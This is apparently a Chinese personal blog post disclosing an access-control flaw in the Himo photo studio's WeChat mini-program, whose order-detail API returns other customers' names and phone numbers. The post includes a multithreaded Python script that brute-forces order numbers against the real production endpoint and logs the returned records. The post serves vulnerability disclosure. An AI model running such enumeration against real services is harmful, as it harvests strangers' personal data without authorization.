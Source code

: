 ```yaml
---
title: "Himo Security"
date: 2023-05-29T00:31:40+08:00
draft: false
tags: [Information Security, Himo]
---
```


> 因为预约了 6 月头在香港的 F1 签证，所以需要准备一张 **签证照**，在家这边的小城市，也没什么选择，没有 **天真蓝**，最好的就是 **海马体** 了。海马体生意还挺好，当天都约不到，只能约到 5 月 14 日星期天

在 2023 年 5 月 16 日我已经向海马体的技术团队提交了 **可能存在的安全问题**。直到今天（2023 年 5 月 29 日），我没有收到海马体技术团队的任何回信，我决定在我的个人博客公开。

我在拍完照之后，现场等待了一会，大概也就不到半个小时，小姐姐就基本上修好了，让我确认一下是否有需要修改的地方，没有的话就开始打印了。打印完之后，她告诉我电子版随时可以在 **海马体小程序** 随时下载。这一点我觉得非常方便。

晚上在家的时候，突然想到海马体小程序的这回事，我在想这些个人的照片应该是存储在 **OSS** 上的，但是我在想会不会有可能是订单号+编号这样子的文件名来存储的，简单说就是这个图片的链接是有规律的。如果真的是这样的话，我就可以轻松拿到所有用户的照片。

我在 iPhone 上开启了抓包，结果发现所有的照片的外链确实是固定的，只不过文件名是随机的一串字符串，似乎没有任何规律，应该就是完全随机的。然而有一个 API 会返回这个用户所有的照片的文件名，这个 API 传递的参数似乎没有类似于 **userID** 这类的参数，也就是说完全按照 **Cookie** 来判断哪位用户的。到这里，想拿到别的用户的照片外链的计划算是泡汤了。

我又想到因为每一次的照片肯定是和订单绑定的，也就是说一个 **签证照** 订单，理论上应该就固定的只有 4 张图。我又仔细地看了一下订单返回的参数，比较有价值的就是用户名、手机号这些，别的都是预约的门店、门店地址、门店联系电话、订单价格之类的一些东西。但是有一个意外的惊喜，我发现订单详情的 API 在 GET 请求的时候携带了 **orderNo** 参数，我赶紧使用 API 测试工具，发起了请求，把 **orderNo** 改一个数字，API 返回了 “订单不存在”。心里窃喜，竟然返回的是订单不存在，而不是无权限，说明我的 **Cookie** 应该可以查看别人的订单信息，我可以拿到任何注册 **海马体小程序** 用户的 **联系方式**。

我的订单的 **orderNo** 是 **T2023051413359999**，以首字母 T 开头，前 8 位是当天的日期，后面的 8 个纯数字应该是随机的，但是这难不倒我，手搓一个 **Python** 脚本，从 **00000000** 穷举到 **99999999** 不就完事了，在多线程的帮助下，简直是小菜一碟。

```python
# 这是示例代码，不能直接运行

import threading
import httpx

headers = {
	"app-key": "himo-wx-mini-program",
	"content-type": "application/json",
	"X-Stream-Id": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.37(0x18002528) NetType/WIFI Language/en",
	"Referer": "https://servicewechat.com/xxxxx/456/page-frame.html"
}

semaphore = threading.Semaphore(10)

def getOrderDetails(orderId):
	try:
		with semaphore:
			url = f"https://api-gateway.hzmantu.com/appointment_platform/order/order/order_detail?orderNo=T20230515{orderId}"
			resp = httpx.get(url=url, headers=headers)
			if resp.status_code == 200:
				with open("result.json", "a") as f:
					f.write(resp.text)
				print(resp.text)
	finally:
		semaphore.__exit__(None, None, None)
			
threads = []
for orderId in range(10013132, 99999999):
	thread = threading.Thread(target=getOrderDetails, args=(orderId,))
	thread.start()
	threads.append(thread)
	
for thread in threads:
	thread.join()
```

很快，Python 的程序跑出了结果，验证了我的猜想。来自 **武汉** 的一位幸运网友。（**为了保护他人隐私，已将关键信息打码**）

![202305295XA9GS](https://static.nisekoo.com/blog/202305295XA9GS.png)

我在 5 月 15 日凌晨发了一条朋友圈和微博，在微博艾特了 **缦图摄影** 和 **海马体照相馆**。很荣幸，在微博私信和我的邮箱都有工作人员联系我，下午醒来的时候我及时地回复了邮件，很遗憾的是过去了接近 2 周的时间，我没有收到任何回信，我不知道他们是修复了这个问题，还是说直接忽略了。之后我也没有再去验证。

![20230529fzK3kq](https://static.nisekoo.com/blog/20230529fzK3kq.png)

其实我写这篇博客，只是想分享这一段有趣的小研究，也算是为海马体做出一点点贡献。**海马体小程序** 其实只是一个很好的例子，其实他们并不是一家小公司，而是一家在中国大陆范围内规模挺大的公司。除了海马体，在过去的时间里我还有研究过很多类似的小程序，很遗憾，大部分小程序都没有在 **用户个人信息** 做到很好保护。
